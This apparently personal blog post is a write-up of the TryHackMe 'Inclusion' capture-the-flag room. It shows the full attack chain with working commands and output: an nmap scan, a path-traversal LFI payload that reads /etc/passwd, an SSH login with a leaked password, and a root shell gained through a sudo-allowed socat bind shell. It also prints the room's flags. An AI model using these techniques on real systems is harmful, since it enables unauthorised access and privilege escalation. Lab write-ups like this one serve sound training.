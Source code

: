 ```yaml
---
title: "Inclusion"
date: 2020-03-16T18:42:36+01:00
draft: false
tags: ["ctf", "tryhackme", "LFI", "socat"]
categories: ["ctf", "tryhackme"]
---
```


Hi guys, after long time I have 5 minutes for playing game, so let's play.
I see new game called __Inclusion__ with describe __A beginner level LFI challenge__.
Yes, this is something I want to play and have been done quick.

So I am starting VPN tunnel to our playground and click on magic button __Deploy machine__.

As always first scan ports opened on the machine.
```bash
$ nmap -T4 -sV 10.10.131.100 --top 100                              
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-16 18:30 CET   
Nmap scan report for 10.10.131.100     
Host is up (0.15s latency).                                                                                                                                   
Not shown: 98 closed ports                                                     
PORT   STATE SERVICE VERSION                                                   
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
                                                                               
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                
Nmap done: 1 IP address (1 host up) scanned in 9.86 seconds         
```

Okay, so some default ports opened. Open the browser, read the articles, we can see, that there is only one parameter
called __name__ of article.

```bash
GET /article?name=lfiattack
...
Even without the ability to upload and execute code, a Local File Inclusion vulnerability can be dangerous. An attacker can still perform a Directory Traversal / Path Traversal attack using an LFI vulnerability as follows.



http://example.com/?file=../../../../etc/passwd
...
```

Okey, so at first we can try the version of LFI in the example. Let's use CLI

```bash
$ curl 'http://10.10.131.100/article?name=../../../../etc/passwd'
...
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
...
```

It looks like we have password in the comment of the file __/etc/passwd__
- #falconfeast:rootpassword

so let's use __ssh__ with the gained username/password

```bash
$ ssh falconfeast@10.10.131.100                                                                                                                   
The authenticity of host '10.10.131.100 (10.10.131.100)' can't be established.                                                                                
ECDSA key fingerprint is SHA256:VRi7CZbTMsqjwnWmH2UVPWrLVIZzG4BQ9J6X+tVsuEQ.                                                                                  
Are you sure you want to continue connecting (yes/no)? yes                                                                                                    
Warning: Permanently added '10.10.131.100' (ECDSA) to the list of known hosts.
rfalconfeast@10.10.131.100's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Mar 16 23:06:55 IST 2020

  System load:  0.01              Processes:           84
  Usage of /:   34.8% of 9.78GB   Users logged in:     0
  Memory usage: 64%               IP address for eth0: 10.10.131.100
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

3 packages can be updated.
3 updates are security updates.


Last login: Thu Jan 23 18:41:39 2020 from 192.168.1.107
$ falconfeast@inclusion:~$ ls
articles  user.txt
$ falconfeast@inclusion:~$ cat user.txt 
60989655118397345799
```

In falconfeast's homedir we can find the __user.txt__ file with the flag
__user flag__
- 60989655118397345799

but how to get the __root flag__?
let's look for options

```bash
$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```

Okay, we can run __socat__ under root priviledges without password. That's enough for us.

- On remote machine
```bash
$ sudo socat TCP-LISTEN:1111,reuseaddr,fork EXEC:sh,pty,stderr,setsid,sigint,sane
```

- On local machine
```bash
$ socat FILE:`tty`,raw,echo=0 TCP:10.10.131.100:1111
sh: 0: can't access tty; job control turned off
# pwd
/home/falconfeast
# cd /root
# ls
root.txt
# cat root.txt
42964104845495153909
```

Ou yeah, we have root priviledges! :)
__root flag__
- 42964104845495153909

[socat](https://linux.die.net/man/1/socat) is really strong network utility, I recommend to read more about it.
Have a another nice day with COVID-19.
bye;)
